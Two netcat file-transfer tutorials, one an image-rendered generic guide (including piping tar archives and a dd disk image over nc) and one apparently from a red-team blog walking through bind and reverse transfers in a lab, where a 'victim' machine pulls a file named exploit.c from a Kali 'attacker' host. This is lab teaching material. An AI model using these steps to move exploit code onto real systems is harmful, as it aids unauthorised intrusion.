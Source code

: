 
```
Using Netcat for File Transfers

Netcat is like a swiss army knife for geeks. It can be used for just about anything involving TCP or UDP. One of its most practical uses is to transfer files. Non *nix people usually don't have SSH setup, and it is much faster to transfer stuff with netcat then setup SSH. netcat is just a single executable, and works across all platforms (Windows,Mac OS X, Linux).

On the receiving end running,

nc -l -p 1234 > out.file

will begin listening on port 1234.

On the sending end running,

nc -w 3 [destination] 1234 < out.file

will connect to the receiver and begin sending file.

For faster transfers if both sender and receiver has some basic *nix tools installed, you can compress the file during sending process,

On the receiving end,

nc -l -p 1234 | uncompress -c | tar xvfp -

On the sending end,

tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234

A much cooler but less useful use of netcat is, it can transfer an image of the whole hard drive over the wire using a command called dd.

On the sender end run,

dd if=/dev/hda3 | gzip -9 | nc -l 3333

On the receiver end,

nc [destination] 3333 | pv -b > hdImage.img.gz

```




Login | Register
VK9 Security

    Home
    Red Team
    Blue-Team
    Labs
    About Us

Transfer files using Netcat

by Vry4n_ | Jan 13, 2021 | Linux Commands | 0 comments

This time we will transfer a file using netcat, we will see examples from machine vk9-sec to lab-kali
Bind connection

1. CLIENT: First, we will create a random file

    echo “Vry4n has been here.” > sample.txt
    cat sample.txt

2. SERVER: we will open a port in the remote machine waiting for a connection to come in, lab-kali machine

    nc -lvp 4455 > sample.txt

3. CLIENT: We will start a connection from our local machine server to the remote machine, in this case vk9-sec to lab-kali machine

    nc -w 3 192.168.0.19 4455 < sample.txt

4. SERVER: At the remote end, we will see the connection, and once, terminates the file shows as downloaded

    ls -l
    cat sample.txt

Reverse connection

1. You could do it the other way, from listening on attacker machine and have the server contact you for the file. Start a listener on Kali (vk9-sec)

    nc -lvp 4455 < 26368.c

2. From the server (victim) reach our kali machine

    nc 192.168.0.13 4455 > exploit.c
    ls
    cat exploit.c

Submit a Comment

You must be logged in to post a comment.

VK9 Security.
